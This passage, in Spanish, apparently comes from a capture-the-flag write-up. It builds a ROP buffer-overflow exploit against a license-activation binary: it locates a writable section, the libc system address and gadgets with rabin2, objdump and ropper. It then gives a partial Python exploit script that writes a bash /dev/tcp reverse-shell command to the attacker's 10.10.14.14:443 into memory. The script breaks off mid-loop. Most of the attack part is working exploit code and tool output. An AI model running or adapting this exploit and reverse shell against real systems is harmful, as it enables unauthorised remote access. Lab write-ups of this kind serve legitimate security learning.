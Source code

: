También hay que ver que parte del bianrio tiene permisos de escritura (donde meteremos el comando de la reverse shell que se le pasará a system)
```console
└─$ rabin2 -S ./activate_licens | grep "w"
23  0x00003000   0x10 0x00004000   0x10 -rw- .data
```
La seccion .data es la idonea para esto (es donde se meten varaibles estaticas) y tenemos suerte de que es escribible.
El resto de direcciones la sacaremos de esta libc que usa el bianrio:
- **system**
```console
└─$ objdump -d libc-2.31.so | grep "system"    
0000000000048e50 <__libc_system@@GLIBC_PRIVATE>:
# Tambien con readelf -> readelf -s libc-2.31.so | grep "system" 
```
- **ROP gadgets**
```console
└─$ ropper -f libc-2.31.so --search "pop rdi; ret"
0x0000000000026796: pop rdi; ret;
└─$ ropper -f libc-2.31.so --search "pop rsi; ret"
0x000000000002890f: pop rsi; ret;
└─$ ropper -f libc-2.31.so --search "mov [rdi], rsi; ret"
0x00000000000603b2: mov qword ptr [rdi], rsi; ret;
```
¿Que es lo que pretendemos hacer con esto?
Como dije antes hay que hacer ```system(bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1')```.
Para ello este "bash -c..." se tiene que escribir en la seccion con permisos de escritura, es decir ".data":
```.data = bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'``` Esto se hace tambien con los registros (rdi y rsi)
1. Hay que meter en \[rdi] la direccion de ".data".
2. Hay que dividier el comando en cadenas de 8 en 8 bytes (enteros, si sobra un byte se le añaden 7 ceros para que de 8)
3. Hay que ir moviendo esas cadenas a .data (rdi) de tanda en tanda, para ello se meten en (rsi) 
4. "mov rdi rsi" -> Mueve lo de rsi (las cadenas) a rdi (la seccion .data))

Despues de esto se mete en rdi la seccion .data y se le pasa dicho rdi a system.
Aquí estaria el exploit (he vuelto a copiar como comentario los comandos de donde se ha sacado cada cosa).

```python3
#!/usr/bin/python3
import socket
from struct import pack
import requests

cmd = b"bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"
# Sacamos estas dos del script de bash de antes, por tanto a usted le saldran diferentes (solo estas dos, el resto son iguales)
libc_base = 0x7f356ace6000
binary_base = 0x5646c60f3000

writable = binary_base + 0x00004000   # rabin2 -S ./activate_licens | grep "w"
system = pack("<q",(libc_base + 0x00048e50)) #  objdump -d libc-2.31.so | grep "system" 
pop_rdi = pack("<q",(libc_base + 0x0026796)) #   ropper -f libc-2.31.so --search "pop rdi; ret"
pop_rsi = pack("<q",(libc_base + 0x002890f)) #  ropper -f libc-2.31.so --search "pop rsi; ret"
mov_rdi_rsi = pack("<q",(libc_base + 0x000603b2)) #  ropper -f libc-2.31.so --search "mov [rdi], rsi; ret"
payload = b'A' * 520

# Mete en writable de 8 en 8 bytes el comando
# ROP -> rdi=writable  rsi=cmd   mov [rdi <- rsi]
for i in range(0, len(cmd), 8):
    payload += pop_rdi
    payload += pack("<q",(writable + i))
    payload += pop_rsi
```